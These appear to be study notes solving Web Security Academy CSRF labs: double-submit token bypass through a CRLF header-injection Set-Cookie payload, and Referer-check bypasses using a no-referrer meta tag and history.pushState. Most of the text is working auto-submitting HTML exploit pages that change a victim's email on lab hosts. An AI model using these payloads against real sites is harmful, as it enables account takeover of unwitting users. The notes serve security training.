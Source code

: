 ### double csrf tokens 
if there is non ssession cookie called csrf or smth like that 
	- value is the same  or different from CSRF token it might be vulnerable 
		- it might be double submitting or using another tied to csrf token 
		- in the both cases we need to inject cookie value in the victim's browser 
		- we need to find an endpoint that vulnerable to header injection like `<img src="https:victim.com/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None"`  here we have the search parameter takes the value given and add a cookie without validation   
		- this what will be on the poc `<img src="https://0a6a006c04de5fc7829147ec00750057.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20srf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"` 

### CSRF where token is duplicated in cookie
```html
<html>
<body>
   <script>history.pushState(' ',' ','/')</script>
   <form action="https://0a6a006c04de5fc7829147ec00750057.web-security-academy.net/my-account/change-email" method="POST"/>
   <input type="hidden" name="email" value="a@gmail.com"/>
   <input type="hidden" name="csrf" value="fake"/>
   <input type="submit" value="submit request"/>
   </form>
   <img src="https://0a6a006c04de5fc7829147ec00750057.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
   </body>
</html>
```
### CSRF where Referrer validation depends on header being present
```html
<html>
<head>
   <meta name="referrer" content="no-referrer" >
</head>
<body>
   <script>history.pushState(' ', ' ' ,'/')</script>
   <form action="https://0a390078039fe0a780e435a600ca0059.web-security-academy.net/my-account/change-email" method="POST">
   <input type="hidden" name="email" value="a@gmail.com">
   <input type="submit" value="submit" >
   </form>
   <script>
   document.forms[0].submit();
   </script>
</body>
</html>
```

### CSRF with broken Referrer validation
```html
<html>
<body>
   <script>history.pushState(' ', ' ' ,'/?0ad4003504bb812580aae57c00c40072.web-security-academy.net')</script>
   <form action="https://0ad4003504bb812580aae57c00c40072.web-security-academy.net/my-account/change-email" method="POST">
   <input type="hidden" name="email" value="a@gmail.com">
   <input type="submit" value="submit" >
   </form>
   <script>
   document.forms[0].submit();
   </script>
</body>
</html>
```